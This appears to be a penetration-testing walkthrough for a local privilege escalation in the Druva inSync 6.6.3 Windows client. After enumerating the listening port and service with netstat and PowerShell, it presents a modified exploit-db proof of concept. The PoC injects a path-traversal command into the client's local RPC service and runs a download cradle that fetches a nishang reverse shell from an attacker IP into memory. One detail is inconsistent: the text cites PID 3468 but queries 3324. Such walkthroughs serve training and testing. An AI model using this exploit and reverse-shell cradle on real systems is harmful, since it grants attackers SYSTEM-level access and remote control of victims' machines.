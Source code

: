 Example of output:

```
  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3468
  TCP    127.0.0.1:6064         127.0.0.1:52496        ESTABLISHED     3468
  TCP    127.0.0.1:52496        127.0.0.1:6064         ESTABLISHED     4084
```


### Enumerating Process ID

Next, let's map the process ID (PID) 3468 back to the running process.

```powershell-session
get-process -Id 3324
```

Exaple of output:

```powershell-session
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```


### Enumerating Running Service

At this point, we have enough information to determine that the Druva inSync application is indeed installed and running, but we can do one last check using the `Get-Service` cmdlet.

```powershell-session
get-service | ? {$_.DisplayName -like 'Druva*'}
```

### The attack

What is interesting in this attack is that the  POC from  [https://www.exploit-db.com/exploits/49211](https://www.exploit-db.com/exploits/49211) for exploiting `Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)` can load and execute a command from  memory, meaning not touching the disk.

We only need to modify the $cmd variable to our desired command. And our desired command will be downloading into memory the [Invoke-PowershellTcp.ps1 from nishang](nishang.md) to get a reverse shell without touching the disk.

First, we indicate in the PoC the command (see variable $cmd with our real IP and ). We will save the file as druva.ps1:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
```
